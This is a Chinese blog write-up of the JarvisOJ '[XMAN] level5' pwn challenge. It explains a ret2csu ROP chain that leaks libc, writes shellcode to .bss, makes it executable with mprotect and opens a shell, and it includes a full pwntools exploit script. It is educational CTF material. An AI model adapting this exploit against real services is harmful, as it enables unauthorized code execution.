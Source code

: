 ```yaml
---
title: XMAN level5 の Write-Up
date: 2020-06-23 17:11:53
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- ROP
- Stack
---
```

## Introduction

这是JarvisOJ的PWN题部分[XMAN]level5的Write-Up。题目和level3_x64一样，只是禁用system和execve函数，让我们尝试使用mmap和mprotect函数。关于这两个函数背景知识可以参考[Linux内存映射机制](https://coldwave96.github.io/2020/06/22/mmap/)。

<!-- more -->

## Analysis

总体思路很简单：

* 分配一块内存buf并设置(mmap)/修改(mprotect)这块内存属性为rwx

* 通过read函数将shellcode写到分配的buf中去

* 控制程序跳转到分配的buf中执行shellcode

如果通过mmap函数实现：

* 通过内存地址泄露获取libc加载基址

* 加上offset获得mmap函数在内存中真实地址

* 调用mmap函数设定buf长度和属性

* 将shellcode写入mmap函数返回的buf首地址

* 控制程序跳转到buf执行shellcode

如果通过mprotect函数实现：

* 通过内存地址泄露获取libc加载基址

* 加上offset获得mprotect函数在内存中真实地址

* 调用mprotect函数修改bss段的权限为rwx即7

* 将shellcode写入bss段

* 控制程序跳转到bss段执行shellcode

## PWN

这里简单点选择mprotect函数实现，因为mmap函数需要设置6个参数，而mprotect函数以及过程中会用到的read/write函数都只需要设置3个参数。

由于是64位程序，所以需要通过寄存器传参。在程序中找了一下，发现只有万能Gadgets可以用。关于万能Gadgets，可以看一下我之前的[ret2csu - 万能Gadgets](https://coldwave96.github.io/2020/06/15/Useful-Gadgets/)。

下面直接给出EXP脚本：

```Python
* # coding:utf-8
* from pwn import *
* context(arch='amd64',os='linux')
* 
* sh = remote('pwn2.jarvisoj.com', 9884)
* 
* elf = ELF('./level5')
* libc = ELF('./libc-2.19.so')
* 
* write_plt = elf.plt['write']
* write_got = elf.got['write']
* vuln_addr = elf.symbols['vulnerable_function']
* 
* gadget1 = 0x4006aa
* gadget2 = 0x400690
* 
* # 泄露write函数地址
* payload1 = 'a' * (0x80 + 0x8) + p64(gadget1)
* payload1 += p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) # 依次给rbx、rbp、r12、rdx、rsi、rdi赋值
* payload1 += p64(gadget2)
* payload1 += 'a' * 56 # padding
* payload1 += p64(vuln_addr)
* 
* sh.recvuntil('Input:\n')
* sh.sendline(payload1)
* write_addr = u64(sh.recv(8))
* 
* write_libc = libc.symbols['write']
* mprotect_libc = libc.symbols['mprotect']
* 
* bss_addr = 0x600a88
* read_plt = elf.plt['read']
* read_got = elf.got['read']
* 
* # mprotect函数在内存中的真实地址
* mprotect_addr = write_addr - write_libc + mprotect_libc
* 
* # 创建shellcode
* shellcode = p64(mprotect_addr) + asm(shellcraft.amd64.sh())
* 
* # 调用read函数将shellcode写入bss段
* payload2 = 'a' * (0x80 + 0x8) + p64(gadget1)
* payload2 += p64(0) + p64(1) + p64(read_got) + p64(len(shellcode)) + p64(bss_addr) + p64(0)
* payload2 += p64(gadget2)
* payload2 += 'a' * 56
* payload2 += p64(vuln_addr)
* 
* sh.recvuntil('Input:\n')
* sh.sendline(payload2)
* sh.send(shellcode)
* 
* # 调用mprotect函数修改bss段权限，并控制程序跳转到bss段执行shellcode
* payload3 = 'a' * (0x80 + 0x8) + p64(gadget1)
* payload3 += p64(0) + p64(1) + p64(bss_addr) # 跳转到bss端开始去执行mprotect函数
* payload3 += p64(7) + p64(0x1000) + p64(0x600000) # mprotect函数的3个参数
* payload3 += p64(gadget2)
* payload3 += 'a' * 56
* payload3 += p64(bss_addr + 8)
* 
* sh.recvuntil('Input:\n')
* sh.sendline(payload3)
* 
* sh.interactive()
* sh.close()
```

EXP运行结果：

![](/img/XMAN-level5/XMAN1.png)

## PS

关于mprotect函数的参数，第一个参数addr是内存页的首地址，内存是要求是以页为单位访问。一页是４kb也就是0x1000字节所以mprotect的第一个参数必须是0x1000的倍数，并且又要包含bss段，所以设置为0x600000。第二个参数是要设置的权限的地址的范围，也是页大小为单位，又需要能包含bss段，故而设置为最小单位0x1000。第三个参数就是具体属性，这里设置成RWX即7。